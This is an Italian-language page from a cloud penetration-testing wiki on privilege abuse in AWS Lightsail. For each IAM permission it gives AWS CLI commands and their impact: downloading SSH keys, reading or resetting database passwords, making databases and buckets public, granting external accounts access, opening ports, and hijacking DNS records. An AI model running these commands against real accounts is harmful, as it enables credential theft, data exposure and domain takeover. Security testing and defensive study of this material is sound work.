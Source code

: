 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Per ulteriori informazioni su Lightsail, controlla:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> È importante notare che Lightsail **non utilizza i ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non puoi abusare di questo servizio per privesc. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.

### `lightsail:DownloadDefaultKeyPair`

Questo permesso ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questo permesso ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questo permesso ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questo permesso ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questo permesso ti permetterà di cambiare la password per accedere al database:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Se il database non è pubblico, puoi anche renderlo pubblico con queste autorizzazioni con
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questo permesso consente di aprire porte su Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questo permesso consente di aprire porte su Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata in essa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di dare a un'istanza accesso a un bucket senza credenziali aggiuntive.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questo permesso un attaccante potrebbe concedere al proprio account AWS accesso in lettura sui bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con questi permessi, un attaccante potrebbe concedere accesso a ECR privati dal servizio di container.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto Potenziale:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di possesso del sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di controllo del sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

{{#include ../../../banners/hacktricks-training.md}}
